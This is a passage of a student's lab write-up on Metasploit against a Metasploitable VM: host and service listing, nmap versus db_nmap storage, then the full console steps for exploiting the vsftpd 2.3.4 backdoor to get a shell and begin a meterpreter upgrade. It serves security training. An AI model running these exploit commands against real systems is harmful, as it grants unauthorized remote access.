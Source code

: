```
Is showing us all hosts with a service on port 80
![alt text](imagesh2/imageService.png)

We can also choose what columns are shown and create a custom list

```hosts -c address,os_flavour,os_name,purpose ```

with ```-o``` these could be output to a file


![alt text](imagesh2/image-8.png)

<a name="f-compare-file-and-database-storage"></a>
## 📄 F) Compare File and Database Storage

Example ```nmap -sV -oN scan.txt 192.168.56.101```
gives us a pretty clean text file of services on the target 

![alt text](imagesh2/image-9.png)

But the db_nmap database actually gives us some more data, and also updating lists when doing new scans, has easier filtering options and as default the services command for msfdb gives us additional data about the services that updates when we run exploits and further scans. Also saves history data.

![alt text](imagesh2/image-10.png)



<a name="g-exploit-vsftpd-on-metasploitable"></a>
## 🔓 G) Exploit vsftpd on Metasploitable

First I use the search command inside msfconsole for vsftpd 2.3.4 to find usable exploits.

```search vsftpd 2.3.4```

![alt text](imagesh2/image-11.png)

found a possible exploit with "excellent" rank, lets try it

```use 0``` runs the exploit we just searched, alternatively we can use the "use" command to select our exploit ```use exploit/unix/ftp/vsftpd_234_backdoor```

then we have to select our target with set rhosts
```set rhosts 192.168.56.101```

then we run the exploit with ```exploit``` or ```run```

![alt text](imagesh2/image-12.png)

This time it did not automatically open session but with ```sessions``` command we can see that its connected.

![alt text](imagesh2/image-13.png)

then ```sessions 1``` activates the session, after connection i test it with ```whoami``` command

![alt text](imagesh2/image-14.png)


<a name="h-upgrade-the-session-to-meterpreter"></a>
## 📈 H) Upgrade the Session to Meterpreter

we drop our session to background with ```ctrl+z``` 
then upgrade to meterpreter with ```sessions -u 1```
```